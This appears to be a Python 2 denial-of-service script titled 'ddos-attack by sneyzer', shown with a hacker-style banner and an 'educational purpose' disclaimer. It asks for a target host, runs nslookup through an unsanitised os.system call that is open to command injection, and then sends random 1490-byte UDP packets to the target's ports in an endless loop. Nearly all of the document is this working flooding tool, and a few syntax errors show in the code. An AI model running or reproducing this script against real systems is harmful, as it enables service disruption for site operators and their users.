 #ddos-attack by sneyzer
import sys
import os
import time
import socket
import string
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############
os.system("clear") 

print("""\033[1;31m  \033[92m

  ___  ___   ___  ___     _ _____ _____ _   ___ _  __ 
 |   \|   \ / _ \/ __|   /_\_   _|_   _/_\ / __| |/ / 
 | |) | |) | (_) \__ \  / _ \| |   | |/ _ \ (__| ' <  
 |___/|___/ \___/|___/ /_/ \_\_|   |_/_/ \_\___|_|\_\ 
                                                      
 
              Script By     =>  sneyzer 
              instagram     =>  _.h4ckers 
              github        =>  sneyzer 
============================================================
""")

print( """\033[94m ONLY FOR EDUCATIONAL PURPOSE   \033[97m   """)
web = raw_input (" Target website   : ")
os.system("nslookup %s  " % (web )
print 
ip = raw_input("\033[94m[*] \033[91mIP \033[91mTarget \033[97m>>> \033[93m ")
port = input("\033[94m[*] \033[91mPORT \033[97m>>> \033[93m ")

os.system("clear")
print(" HWV-DDoS ready to Attack.. OK!! ")
print(" 8======D     15% ") 
time.sleep(2)
print(" 8=============D      25% ") 
time.sleep(3)
print(" 8====================D       50% ") 
time.sleep(4)
print(" 8=============================D        75% ") 
time.sleep(5)
print(" 8=====================================D     100% ") 
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1
